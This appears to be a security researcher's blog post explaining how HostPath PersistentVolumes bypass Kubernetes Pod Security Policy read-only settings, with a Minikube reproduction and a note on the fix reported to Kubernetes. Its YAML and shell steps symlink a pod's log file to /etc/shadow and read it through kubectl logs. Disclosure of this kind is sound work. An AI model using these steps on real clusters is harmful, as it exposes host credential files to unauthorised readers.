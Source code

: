 ```yaml
---
layout: post
title:  "Dangers of HostPath PersistentVolumes"
date:   2020-03-05 20:12:50 -0800
categories: containers
---
```


## Intro

In this post we'll talk about some dangers that arise
when using a specific type of Kubernetes storage object, 
which cannot be secured by operators and can result in
Pod escapes.

## Background

In Kubernetes, a `PersistentVolume` object is an API
object that represents a Volume (some kind of mount),
which can make it easier for operators to keep track
of the Volume. A "share" of a `PersistentVolume` can
be claimed by a Pod via a `PersistentVolumeClaim` object:

| ![pvdocs](/assets/images/pvdocs.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#introduction> |


To actually use a Volume defined by a `PersistentVolume` object,
a Pod's spec references an associated `PersistentVolumeClaim` in
its namespace:

| ![pvcdocs](/assets/images/pvcdocs.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#claims-as-volumes> |


A `PersistentVolume` object can define the [same types](https://kubernetes.io/docs/concepts/storage/persistent-volumes/#types-of-persistent-volumes) of Volumes commonly defined
inline within a Pod's YAML spec, such as `HostPath`.

## Problem Statement

Trail of Bits noted in their Kubernetes audit that `HostPath` type `PersistentVolume`
objects *are not* checked against the [`hostPath`-relevant directives](https://kubernetes.io/docs/concepts/policy/pod-security-policy/#volumes-and-file-systems) in a user's Pod Security Policy (PSP):

| ![tobpvbug](/assets/images/tobpvbug.png) | 
|:--:| 
| <https://github.com/kubernetes/community/blob/master/wg-security-audit/findings/Kubernetes%20Final%20Report.pdf> |

Their exploit scenario involved an attacker who, as per their PSP, was *unable* to use `hostPath`
Volumes, but was allowed to create Pods, `PersistentVolume` objects, and `PersistentVolumeClaim` objects.
In this case, the attacker can create a `HostPath` type `PersistentVolume` specifying a mount at the Node's home
directory, and reference that in a subsequent `PersistentVolumeClaim` and Pod reference, thus achieving Pod that
can access the Node's home directory, despite the PSP that is in place.

Kubernetes reponded in turn and added the following language to the documentation:

| ![pvorigwarning](/assets/images/pvorigwarning.png) | 
|:--:| 
| <https://github.com/kubernetes/website/pull/15756> |

However, **there is an additional angle to build on here**. 

It is known that writable `hostPath` Volumes are insecure, and Aqua has a [fantastic writeup](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) on *one such* example of why this is the case. In Aqua's writeup, they
demonstrate how a Pod that receives a writable `hostPath` Volume of `/var/log` can access *any* files on the Node's
filesystem. You should read the writeup, but this occurs because said Pod can overwrite its (or any other Pod's) `0.log` logfile with a symlink to e.g. `/etc/shadow`, and this symlink is followed by the Node upon any `kubectl logs PODNAME` invocation for the Pod whose logfile has been poisoned!

This is somewhat of a contrived example, but Kubernetes is weary of such trickery, and so they have declared any writeable `hostPath` Volume insecure:

| ![pvorigwarning](/assets/images/readfswarning.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/policy/pod-security-policy/#volumes-and-file-systems> |

But note their prescribed fix in the figure above: use the `readOnly: true` sub-directive within the
`allowedHostPaths` directive in a user's PSP in order to make `hostPath` Volumes read-only, and thus safe.
But wait! As we discussed earlier, those directives are not checked for `HostPath` type `PersistentVolume`
objects! And while `PersistentVolume` objects have an `accessModes` directive, support for individual access
modes is determined by the implementation of the underlying storage, and a read-only mode is not supported for
`HostPath` type `PersistentVolumes`:

| ![pvorigwarning](/assets/images/pvaccessmodesupport.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#persistent-volumes> |

**Exploit Scenario:**

An operator wishes to provide a read-only copy of the Node's `/var/log`, such that a Pod can view other Pods'
logs, and they choose to represent this as a `HostPath` type `PersistentVolume`.

* The operator reads the aforementioned warning in the PSP documentation, and thus sets `readOnly: true` in `allowedHostPaths` for the `PersistentVolume`, assuming this makes the mount read-only, [as it does for inline `hostPath` Volumes](https://github.com/kubernetes/kubernetes/pull/58647).

* Since the Pod can actually write to `/var/log`, the Pod receiving this Volume mount can follow the steps in Aqua's writeup. By writing a symlink to a Pod's logfile, they can read *any* file off of the Node's filesystem, not just what is in `/var/log/`.

**Minikube Example**

Here are some example Kubernetes objects and steps that can be used to reproduce the
exploit scenario above:

* Reads the docs, and sets `readOnly: true` in a PSP for `hostPath`
Volumes, in order to prevent attacks surrounding writing and symlinks;
the operator wants a Pod with read-only access to other Pods' logs.

~~~
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
   name: psp-restricted
spec:
   allowPrivilegeEscalation: false
   allowedHostPaths:
   - pathPrefix: /var/log
     readOnly: true
   fsGroup:
     rule: RunAsAny
   requiredDropCapabilities:
   - ALL
   runAsUser:
     rule: RunAsAny
   seLinux:
     rule: RunAsAny
   supplementalGroups:
     rule: RunAsAny
   volumes:
   - configMap
   - persistentVolumeClaim
   - emptyDir
   - secret
   - projected
   - nfs
~~~

* Creates a `PersistentVolume` of type `HostPath`, which allows a Pod to
access `/var/log`, under the assumption it is read-only via the PSP
directive

~~~
apiVersion: v1
kind: PersistentVolume
metadata:
    name: task-pv-volume-vol
    labels:
      type: local
spec:
    storageClassName: manual
    capacity:
      storage: 10Gi
    accessModes:
      - ReadWriteOnce
    hostPath:
      path: "/var/log"

apiVersion: v1
kind: PersistentVolumeClaim
metadata:
    name: task-pv-claim-vol
spec:
    storageClassName: manual
    accessModes:
      - ReadWriteOnce
    resources:
      requests:
        storage: 3Gi
~~~

* But a Pod can still write a symlink to its `0.log` file, which is
followed by the Node upon `kubectl logs PODNAME` in order to read *any* file from the Node

~~~
apiVersion: v1
kind: Pod
metadata:
    name: task-pv-pod
spec:
    volumes:
      - name: task-pv-storage-vol
        persistentVolumeClaim:
          claimName: task-pv-claim-vol
    containers:
      - name: task-pv-container
        image: ubuntu:latest
        command: [ "sh", "-c", "sleep 1h" ]
        volumeMounts:
          - mountPath: "/hostlogs"
            name: task-pv-storage-vol
~~~

~~~
kubectl exec -it task-pv-pod -n default /bin/bash
~~~

~~~
cd /hostlogs/pods/default_task-pv-pod_c9030cba-f67b-4564-8bbc-531d87e63920/task-pv-container/
~~~

~~~
rm 0.log
~~~

~~~
ln -s /etc/shadow 0.log
~~~

~~~
kubectl logs task-pv-pod -n default
failed to get parse function: unsupported log format:
"root:*:15887:0:::::\n"
~~~


## Fix?

At this point, we've seen why **any `HostPath` type `PersistentVolume` object should
be considered suspect because they cannot be made read-only**. While the `/var/log` example
is the only one I know of, there might be more, which is why the documentation warns about
writable `hostPath` Volumes in the first place.

I reported this behavior to Kubernetes, and, to address this, 
Kubernetes is doing two things:

* Updating the documentation's language to state that `HostPath` type `PersistentVolume` objects
cannot be made read-only, which, as we know, is insecure by design

| ![newdocwarning](/assets/images/newdocwarning.png) | 
|:--:| 
| <https://github.com/kubernetes/website/pull/19504/> |

* [Requesting](https://github.com/kubernetes/kubernetes/issues/88880) a feature for read-only `HostPath` type `PersistentVolume` objects